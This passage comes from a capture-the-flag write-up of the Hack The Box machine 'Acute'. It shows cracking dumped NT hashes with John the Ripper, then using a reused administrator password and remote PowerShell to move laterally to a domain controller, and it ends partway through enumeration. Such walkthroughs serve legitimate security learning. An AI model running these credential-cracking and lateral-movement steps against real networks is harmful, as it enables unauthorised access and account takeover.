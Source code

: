 **Let's try to crack those hashes!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:10:34(HKT)]
└> cat << EOF > Acute-PC01.hash  
heredoc> Administrator:500:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:{Redacted}:::
heredoc> EOF
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|17:10:46(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT Acute-PC01.hash 
[...]
{Redacted}     (Administrator)
[...]
```

Nice! We cracked `Administrator`'s password NT hash!

But... We're already an administrator in `Acute-PC01`...

Ah ha! ***Password reuse?***

Maybe there's a domain user reused this password?

**Let's do password spraying to the Domain Controller on the `edavies` reverse shell session!**

**In my first attempt, domain user `awallace` worked!**
```shell
PS C:\Users\edavies\Documents> $passwd1 = ConvertTo-SecureString "{Redacted}" -AsPlainText -Force
PS C:\Users\edavies\Documents> $cred1 = New-Object System.Management.Automation.PSCredential ("acute\awallace",$passwd1)
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { whoami }
acute\awallace
```

So domain user `awallace` is reusing the local `Administrator` built-in user in `Acute-PC01`.

Hmm... What can we do now...

### `ATSSERVER` awallace to `ATSSERVER` `Domain Admins`

**After enumerating a little bit, I found there's a weird, non-standard Windows software installed in `C:\Program Files\`:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { ls "C:\Program Files"}
[...]
Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
d-----        12/21/2021  12:04 AM                common files                       ATSSERVER                         
d-----        12/21/2021  12:11 AM                Hyper-V                            ATSSERVER                         
d-----         9/15/2018   8:12 AM                internet explorer                  ATSSERVER                         
d-----          2/1/2022   7:41 PM                keepmeon                           ATSSERVER                         
d-----        12/21/2021  12:04 AM                VMware                             ATSSERVER                         
d-----        12/20/2021   9:19 PM                Windows Defender                   ATSSERVER                         
d-----        12/20/2021   9:12 PM                Windows Defender Advanced Threat   ATSSERVER                         
```